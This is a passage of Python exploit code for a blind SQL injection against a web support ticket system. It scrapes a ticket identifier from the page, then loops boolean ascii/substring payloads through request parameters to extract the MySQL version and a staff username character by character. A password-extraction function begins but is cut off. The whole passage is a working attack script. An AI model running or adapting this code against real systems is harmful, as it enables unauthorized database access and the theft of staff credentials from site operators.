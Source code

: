```py
	# Get the index of the page, search for csrfMagicToken in it
	index = ticket_page.text.find("param[]")
	# Get only the csrfMagicToken in it
	id_ticket = ticket_page.text[index:index+128].split('"')[0]
	id_ticket = id_ticket.split('=')[1]
	if id_ticket:
		print("[+] We get the Token ID to SQLInjection! [+]")
		return id_ticket
	else:
		print("[+] Cannot get the Token ID [+]")
		print("[+] Have you manually opened a ticket??? This is mandatory to exploit!! [+]")
		exit

# Now, let's trigger the sqlinjection to get the username
def getVersion(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print("[+] The version of MySQL is.... [+]")
	while(char!=123):
		injection_string = " and 1=1 and ascii(substring((select version()),%d,1))= %s" %(limit,char)
		target_prefix = sqli_target + injection_string
		response = r.get(target_prefix,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []
			

def getUsername(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print("[+] The Username is.... [+]")
	while(char!=123):
		target_username = sqli_target + " and 1=1 and ascii(substr((select username from staff limit 0,1),"+str(limit)+",1))="+str(char)+" -- -"
		response = r.get(target_username,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []

def getPassword(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
```